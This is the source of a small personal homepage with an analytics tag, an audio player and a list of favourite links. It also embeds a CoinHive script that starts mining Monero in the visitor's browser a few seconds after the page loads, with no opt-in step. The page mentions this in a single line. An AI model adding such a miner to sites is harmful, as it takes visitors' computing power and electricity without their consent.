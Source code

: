```yaml
---
layout:
---
```


<head>
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
</head>

Thanks for the visit please feel free to look around.

<!--(mailto:bohadi@users.noreply.github.com) contact me if you please
-->

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

[this site, projects repo](https://github.com/bohadi)
<br><br>

some links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[sep/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>
some old stories:<br>
[The Travels of Marco Polo](https://en.wikisource.org/wiki/The_Travels_of_Marco_Polo)<br>
[Somnium, by Kepler](https://somniumproject.wordpress.com/somnium)<br>
[Vera Historia, by Lucian of Samosata](http://lucianofsamosata.info/TheTrueHistory.html)<br>

<br>
This page can mine [Monero](https://en.wikipedia.org/wiki/Monero_(cryptocurrency)) in the background.<br>
This may be an alternative to serving ads and is disabled by adblock. 
<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connection opened... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error. Miner stopping.';
    }
  }, 3000);

</script>

